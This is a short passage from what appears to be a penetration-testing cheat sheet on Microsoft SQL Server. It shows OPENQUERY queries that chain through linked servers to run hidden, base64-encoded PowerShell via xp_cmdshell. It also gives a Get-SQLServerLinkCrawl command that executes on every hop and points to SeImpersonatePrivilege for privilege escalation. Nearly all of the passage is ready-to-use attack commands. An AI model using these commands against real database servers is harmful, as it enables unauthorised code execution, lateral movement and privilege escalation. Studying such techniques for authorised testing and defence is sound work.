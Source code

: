 ```
SELECT * FROM OPENQUERY("mssql.corp.local", 'select @@servername; exec xp_cmdshell ''powershell -w hidden -enc <base64>''')
```

* 2 hop:

```
SELECT * FROM OPENQUERY("mssql.corp.local", 'select * from openquery("sql01.extcorp.local", ''select @@servername; exec xp_cmdshell ''''powershell -enc <base64>'''''')')
```

And more over...

`Get-SQLServerLinkCrawl` has an easier way to execute commands on every hop:

```powershell
powershell Get-SQLServerLinkCrawl -Instance "mssql.corp.local,1443" -Query "exec master..xp_cmdshell 'powershell -w hidden -enc <base64>'"
```

# Privilege Escalation

This instance of SQL is running as NT Service\MSSQL$SQLEXPRESS, which is generally configured by default on more modern SQL installers. It has a special type of privilege called `SeImpersonatePrivilege`. This allows the account to "impersonate a client after authentication".

Consult `Windows Privesc` section to check how to privesc.
